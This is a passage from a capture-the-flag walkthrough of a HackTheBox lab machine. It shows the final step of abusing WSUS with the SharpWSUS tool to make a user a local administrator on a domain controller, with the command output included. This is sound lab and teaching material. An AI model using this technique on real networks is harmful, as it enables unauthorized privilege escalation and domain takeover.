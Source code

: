Check if the update has been installed
```bash
./SharpWSUS.exe check /updateid:0141ab3f-05f0-4d91-b8d4-a7d7f4eba208 /computername:dc.outdated.htb

 ____  _                   __        ______  _   _ ____
/ ___|| |__   __ _ _ __ _ _\ \      / / ___|| | | / ___|
\___ \| '_ \ / _` | '__| '_ \ \ /\ / /\___ \| | | \___ \
 ___) | | | | (_| | |  | |_) \ V  V /  ___) | |_| |___) |
|____/|_| |_|\__,_|_|  | .__/ \_/\_/  |____/ \___/|____/
                       |_|
           Phil Keeble @ Nettitude Red Team

[*] Action: Check Update

Targeting dc.outdated.htb
TargetComputer, ComputerID, TargetID
------------------------------------
dc.outdated.htb, bd6d57d0-5e6f-4e74-a789-35c8955299e1, 1

[*] Update is not installed

[*] Check complete
```
and wait a little until it is, after that, sflowers will be a member of the Administrator group
```bash
net user sflowers
User name                    sflowers
Full Name                    Susan Flowers
Comment
User's comment
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never

Password last set            6/20/2022 11:04:09 AM
Password expires             Never
Password changeable          6/21/2022 11:04:09 AM
Password required            Yes
User may change password     Yes

Workstations allowed         All
Logon script
User profile
Home directory
Last logon                   6/15/2022 10:48:27 PM

Logon hours allowed          All

Local Group Memberships      *Administrators       *Remote Management Use
                             *WSUS Administrators
Global Group memberships     *Domain Users
The command completed successfully.
```
you can now log off and log back in and the privilege will be effective, which means that we can navigate to the Admin directory and get the flag
